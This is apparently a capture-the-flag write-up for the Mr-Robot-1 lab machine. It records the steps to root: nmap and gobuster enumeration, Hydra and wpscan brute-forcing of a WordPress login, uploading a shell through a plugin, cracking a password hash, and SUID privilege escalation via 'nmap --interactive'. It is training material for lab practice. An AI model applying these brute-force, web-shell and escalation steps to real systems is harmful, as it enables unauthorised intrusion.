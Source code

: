 # Mr-robot-1
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/1.png" >
</p>
Let’s start with scanning my local private network to get the adress IP of my target.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image//Mr-robot-1/netdiscover.png" >
</p>
the adress of my target => 10.0.4.23
Our next step is to scan our target with NMAP.
```
nmap -sC -sV -o scan.nmap 10.0.4.23
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image//Mr-robot-1/scan.png">
</p>
there is one port open: 80=> server APACHE et 443 => ssl/http
Let's check the server Apache on port 80.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/1.png" >
</p>
 Mr. Robot, it has three keys hidden in different locations. The main goal is to find all three tokens hidden in the system. Each key is progressively difficult to find.First we check the robots.txt if there is any hidden file.
 <p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/key1.png" >
</p>
Great, we get the first key.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/key11.png" >
</p>
The next step is to start enumeration with **Gobuster tool**
```
gobuster dir -u http://10.0.4.23 -w /usr/share/dirbuster/wordlists/directory-2.3-medium.txt
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/2.png" >
</p>
all directories are prefixed with wp, Our Apache server is then running Wordpress.Let's check the authentication panel.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/3.png" >
</p>
I started for trying to enumerate users using **wpscan tool**, but can't find any user. So to find a great wordlist for enumerating.
under the robots.txt directory there is a wordlist named fsocity.dic.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/word.png" >
</p>
Hydra is the best tool for brute forcing authentication. We start first with username discovering
```
hydra -L fsociety.dic -p whatever 10.0.4.23 http-get-form "/wp-login.php:log=^USER^&pws=^PASS^&wp-submit=login+In:F=Invalid username" -V
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/username.png" >
</p>
Great, we get username **Elliot/elliot/ELLIot/....** . Next step is to look for elliot's password.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/username1.png" >
</p>
IMPORTANT: wordpress check first if the username is correct after check the password => get first the username then password.
To get the password there is two ways:
1-using hydra
```
hydra -l elliot -P fsociety.dic 10.0.4.23 http-get-form "/wp-login.php:log=^USER^&pws=^PASS^&wp-submit=login+In:F=is incorrect" -V
```
2- using wpscan
```
./wpscan -u http://10.0.4.23/ -w fsociety.dic -U elliot 
```
Great, we get the password successfully.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/password.png" >
</p>
We logged in admin.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/4.png" >
</p>
we start by installing file manager plugin.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/5.png" >
</p>
then Upload our shell. And finnaly execute it on the server.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/6.png" >
</p>
having a remote access as daemon user. we get hash password for robot user.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/7.png" >
</p>
We crack the hash password with **hash killer** website.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/8.png" >
</p>
Bom, we get robot password. So we can read the 2nd key.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/9.png" >
</p>
Our next goal is to look for last key that is root key. we list all commands that can be executed as a root.
```
find / -perm -u=s 2>/dev/null
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/10.png" >
</p>
Great Nmap that is a tool for scanning port and enumerate services can be executed as a root.
```
nmap --interactive
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/11.png" >
</p>
great satisfaction, we have root access. we can then read the root key.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/Mr-robot-1/root_access.png" >
</p>
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/gif/dance.gif" width="460" height="170">
</p>
support me on [twitter](https://twitter.com/rajoul6)







